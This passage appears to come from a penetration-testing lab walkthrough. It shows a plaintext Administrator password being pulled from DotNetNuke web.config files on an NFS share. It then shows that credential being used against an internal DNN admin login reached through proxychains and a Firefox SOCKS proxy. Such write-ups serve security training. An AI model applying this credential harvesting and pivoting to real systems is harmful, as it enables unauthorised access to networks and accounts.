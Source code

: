 ### 🔐 Credential Discovery in Config Files
```bash
# DNN configuration analysis
cd /tmp/DEV01/DNN/
ls -la

# Key files discovered:
web.config              # Primary configuration
web.Debug.config        # Debug configuration  
web.Deploy.config       # Deployment configuration
web.Release.config      # Release configuration

# Credential extraction from web.config:
cat web.config
# Discovered credentials:
<username>Administrator</username>
<password>
    <value>D0tn31Nuk3R0ck$$@123</value>
</password>
```

## 🌐 DotNetNuke (DNN) Analysis

### 📊 Application Assessment
```bash
# DNN installation discovery
proxychains curl http://172.16.8.20
# Result: DNN installation page

# Admin login page access
http://172.16.8.20/Login?returnurl=%2fadmin

# User registration attempt:
# Result: "Email sent to Site Administrator for verification"
# Assessment: Manual approval required (unlikely to succeed)

# Credential validation:
Administrator:D0tn31Nuk3R0ck$$@123
# Source: NFS share web.config file
```

### 🔍 Firefox SOCKS Proxy Configuration
```cmd
# Firefox proxy setup:
1. Settings → General → Network Settings
2. Manual proxy configuration
3. SOCKS Host: 127.0.0.1
4. Port: 8081
5. SOCKS v5 selected
6. Proxy DNS when using SOCKS v5: enabled

# Direct internal network access:
http://172.16.8.20 → DNN installation page
http://172.16.8.20/Login → Admin authentication portal
```
